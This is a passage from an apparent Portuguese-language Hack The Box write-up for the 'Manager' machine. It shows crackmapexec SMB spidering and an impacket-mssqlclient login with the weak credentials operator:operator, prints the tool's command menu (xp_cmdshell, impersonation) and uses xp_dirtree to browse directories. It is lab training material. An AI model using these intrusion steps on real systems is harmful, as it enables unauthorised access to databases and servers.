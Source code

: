 ```shell
╭─      ~/HTB/manager      
╰─ crackmapexec smb manager.htb -u operator -p operator -M spider_plus
```
{: .nolineno }

## **Exploração**

### impacket-mssqlclient
Conectando no mssql via impacket

```shell
╭─      ~/HTB/manager          
╰─ impacket-mssqlclient operator:operator@manager.htb -windows-auth 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
```
{: .nolineno }
`xp_cmdshell {cmd}`  está desabilitado, mas `xp_dirtree {path}` habilitado

Depois de explorar alguns diretórios com o xp_dirtree, foi encontrado esse .zip na raiz do site